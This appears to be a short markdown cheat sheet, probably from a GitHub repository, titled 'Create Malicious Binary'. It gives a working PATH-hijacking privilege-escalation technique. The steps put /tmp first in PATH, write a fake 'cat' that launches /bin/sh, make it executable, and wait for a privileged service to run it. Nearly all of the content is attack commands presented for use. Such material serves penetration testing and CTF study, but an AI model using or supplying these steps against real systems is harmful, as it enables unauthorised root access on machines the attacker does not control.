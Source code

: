 # Create Malicious Binary

1. Add current working directory to PATH

        export PATH=/tmp:$PATH
        cd /tmp/

2. Create a malicious binary file with desired filename, e.g., `cat`

        echo '/bin/sh' > cat

3. Give execute permissions to the malicious binary, and let it get executed by a privileged service

        chmod +x cat